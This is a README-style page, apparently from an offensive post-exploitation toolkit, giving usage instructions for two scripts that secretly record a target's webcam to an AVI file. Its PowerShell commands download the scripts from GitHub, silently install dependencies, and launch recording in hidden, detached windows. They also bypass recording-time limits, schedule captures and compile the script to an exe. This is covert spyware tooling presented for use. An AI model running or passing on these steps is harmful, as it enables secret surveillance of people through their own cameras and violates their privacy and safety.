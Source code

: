 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon its installed
[bool](python -V)

#Check if opencv its installed
[bool](pip list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python -V)
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 20 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '20'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and rename avi file name
.\Invoke-webcamAvi.ps1 -FileName "capture.avi"

#Silent install of python3 dependencies if missing.
.\Invoke-WebCamAvi.ps1 -forceinstall

  -- Final Notes --
  
#Invoke -reclimmit 'int' to bypass max_rec_time restrictions
.\Invoke-WebCamAvi.ps1 -rectime '240' -reclimmit '240'

## Start webcam record at selected time frame ..
# Warning: -starttime input format requires 4 digits user inputs.
# The first two digits reffers to HOUR and the last two to MINUTS
.\Invoke-WebCamAvi.ps1 -starttime '09:07'

#Execute cmdlet in a hidden terminal window for 60 seconds ( child detach from parent process - orphan )
PS C:\> Start-Process -WindowStyle hidden powershell -argumentlist "-file Invoke-WebCamAvi.ps1 -rectime '60'"
```

<br />

**Final Notes:**
```powershell
Remark: Python 3 its mandatory requirement to run cmdlet ..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.
Video recording (silent) its stored on cmdlet working directory under the name of: "meterpeter.avi"
```
